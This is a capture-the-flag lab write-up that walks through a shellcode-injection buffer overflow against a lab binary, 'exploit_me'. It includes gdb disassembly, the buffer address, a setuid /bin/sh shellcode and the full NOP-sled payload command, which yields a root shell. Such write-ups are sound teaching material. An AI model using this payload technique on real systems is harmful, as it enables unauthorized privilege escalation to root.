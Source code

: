 # Writeup 3

Go back to the last step of [writeup 1](../writeup1.md) and ssh as **zaz**.\
We used an exploit called **ret2libc** but we can use another method to exploit the binary, by injecting a **shellcode**
which will be copy to a buffer on the**stack** and then we can inject the address of this buffer in order to make the
**eip** read it.

## Setup exploit

1. **Get buffer's address on the stack**\
The address is returned by the function **strcpy** in **eax**.
```
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *main+49
Breakpoint 1 at 0x8048425
(gdb) r aaaaaaaaaaaaaaaaaaaaaaaaaa
Starting program: /home/zaz/exploit_me aaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x08048425 in main ()
(gdb) info reg $eax
eax            0xbffff6b0	-1073744208
```
The address is `0xbffff6b0`.


2. **Get the shellcode**\
We can use the website [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) to get a shellcode.\
This one works [https://shell-storm.org/shellcode/files/shellcode-516.html](https://shell-storm.org/shellcode/files/shellcode-516.html).\
`\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`


3. **Create the payload**\
The payload consists in `padding + buffer address + NOP + shellcode`.\
What is NOP ? It stands for "No Operations", basically it is used to make sure that our exploit doesn’t fail,because we won’t always point
to the right address , so we add stuff that doesn’t do anything.\
So with that our shellcode is `python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`

## Exploit
We can just run:
```
./exploit_me $(python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')
# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
# whoami
root
```
